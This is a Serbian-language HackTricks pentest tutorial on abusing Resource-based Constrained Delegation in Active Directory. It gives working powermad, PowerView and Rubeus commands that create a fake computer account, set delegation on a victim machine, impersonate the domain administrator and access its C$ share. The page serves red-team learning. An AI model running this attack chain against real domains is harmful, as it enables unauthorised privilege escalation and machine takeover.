 # Resource-based Constrained Delegation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Osnovi Resource-based Constrained Delegation

Ovo je slično osnovnom [Constrained Delegation](constrained-delegation.md) ali **umesto** davanja dozvola **objektu** da **imituje bilo kog korisnika prema servisu**. Resource-based Constrained Delegation **postavlja** u **objektu ko može da imituje bilo kog korisnika prema njemu**.

U ovom slučaju, ograničeni objekat će imati atribut pod nazivom _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ sa imenom korisnika koji može da imituje bilo kog drugog korisnika prema njemu.

Još jedna važna razlika između ovog Constrained Delegation i drugih delegacija je da bilo koji korisnik sa **dozvolama za pisanje nad računom mašine** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) može postaviti _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (U drugim oblicima Delegacije potrebne su privilegije domen administratora).

### Novi koncepti

U Constrained Delegation je rečeno da je **`TrustedToAuthForDelegation`** oznaka unutar _userAccountControl_ vrednosti korisnika potrebna za izvođenje **S4U2Self.** Ali to nije potpuno tačno.\
Stvarnost je da čak i bez te vrednosti, možete izvesti **S4U2Self** protiv bilo kog korisnika ako ste **servis** (imate SPN) ali, ako imate **`TrustedToAuthForDelegation`** vraćeni TGS će biti **Forwardable** i ako **nemate** tu oznaku vraćeni TGS **neće** biti **Forwardable**.

Međutim, ako je **TGS** korišćen u **S4U2Proxy** **NISU Forwardable** pokušaj zloupotrebe **osnovne Constrained Delegation** neće **uspeti**. Ali ako pokušavate da iskoristite **Resource-Based constrained delegation, to će uspeti** (ovo nije ranjivost, to je funkcija, očigledno).

### Struktura napada

> Ako imate **dozvole za pisanje ekvivalentne privilegijama** nad **računom računara** možete dobiti **privilegovan pristup** na toj mašini.

Pretpostavimo da napadač već ima **dozvole za pisanje ekvivalentne privilegijama nad računarom žrtve**.

1. Napadač **kompromituje** nalog koji ima **SPN** ili **kreira jedan** (“Servis A”). Imajte na umu da **bilo koji** _Admin User_ bez bilo kojih drugih posebnih privilegija može **kreirati** do 10 **računarskih objekata (**_**MachineAccountQuota**_**)** i postaviti im **SPN**. Tako da napadač može jednostavno kreirati računar i postaviti SPN.
2. Napadač **zloupotrebljava svoje DOZVOLE ZA PISANJE** nad računarom žrtve (ServisB) da konfiguriše **resource-based constrained delegation da omogući Servisu A da imituje bilo kog korisnika** prema tom računaru žrtve (ServisB).
3. Napadač koristi Rubeus da izvede **potpun S4U napad** (S4U2Self i S4U2Proxy) od Servisa A do Servisa B za korisnika **sa privilegovanim pristupom Servisu B**.
1. S4U2Self (iz SPN kompromitovanog/kreativnog naloga): Traži **TGS od Administratora za mene** (Nije Forwardable).
2. S4U2Proxy: Koristi **ne Forwardable TGS** iz prethodnog koraka da traži **TGS** od **Administratora** za **računar žrtve**.
3. Čak i ako koristite ne Forwardable TGS, pošto zloupotrebljavate Resource-based constrained delegation, to će uspeti.
4. Napadač može **proći kroz tiket** i **imitirati** korisnika da dobije **pristup žrtvovanom Servisu B**.

Da biste proverili _**MachineAccountQuota**_ domena možete koristiti:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Napad

### Kreiranje objekta računara

Možete kreirati objekat računara unutar domena koristeći [powermad](https://github.com/Kevin-Robertson/Powermad)**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### Konfigurisanje R**esource-based Constrained Delegation**

**Korišćenje activedirectory PowerShell modula**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**Korišćenje powerview**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Извођење потпуног S4U напада

Прво, креирали смо нови објекат Рачунар са лозинком `123456`, тако да нам је потребан хеш те лозинке:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
Ovo će odštampati RC4 i AES heš vrednosti za taj nalog.\
Sada se napad može izvršiti:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Možete generisati više karata jednostavno postavljanjem pitanja jednom koristeći `/altservice` parametar Rubeus:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
Napomena da korisnici imaju atribut pod nazivom "**Ne može biti delegiran**". Ako korisnik ima ovaj atribut postavljen na True, nećete moći da ga imitirate. Ova svojstvo se može videti unutar bloodhound.
{% endhint %}

### Pristup

Poslednja komanda će izvršiti **potpun S4U napad i injektovaće TGS** od Administratora na žrtvovanu mašinu u **memoriji**.\
U ovom primeru je zatražen TGS za **CIFS** servis od Administratora, tako da ćete moći da pristupite **C$**:
```bash
ls \\victim.domain.local\C$
```
### Zloupotreba različitih servisnih karata

Saznajte više o [**dostupnim servisnim kartama ovde**](silver-ticket.md#available-services).

## Kerberos greške

* **`KDC_ERR_ETYPE_NOTSUPP`**: Ovo znači da je kerberos konfigurisan da ne koristi DES ili RC4 i da pružate samo RC4 hash. Pružite Rubeusu barem AES256 hash (ili jednostavno pružite rc4, aes128 i aes256 hash). Primer: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: Ovo znači da je vreme trenutnog računara različito od vremena DC-a i kerberos ne funkcioniše ispravno.
* **`preauth_failed`**: Ovo znači da dati korisničko ime + hash ne funkcionišu za prijavu. Možda ste zaboravili da stavite "$" unutar korisničkog imena prilikom generisanja hash-eva (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: Ovo može značiti:
* Korisnik kojeg pokušavate da imitira ne može da pristupi željenoj usluzi (jer ne možete da ga imitira ili zato što nema dovoljno privilegija)
* Tražena usluga ne postoji (ako tražite kartu za winrm, ali winrm ne radi)
* Lažni računar koji je kreiran je izgubio svoje privilegije nad ranjivim serverom i morate ih ponovo dodeliti.

## Reference

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
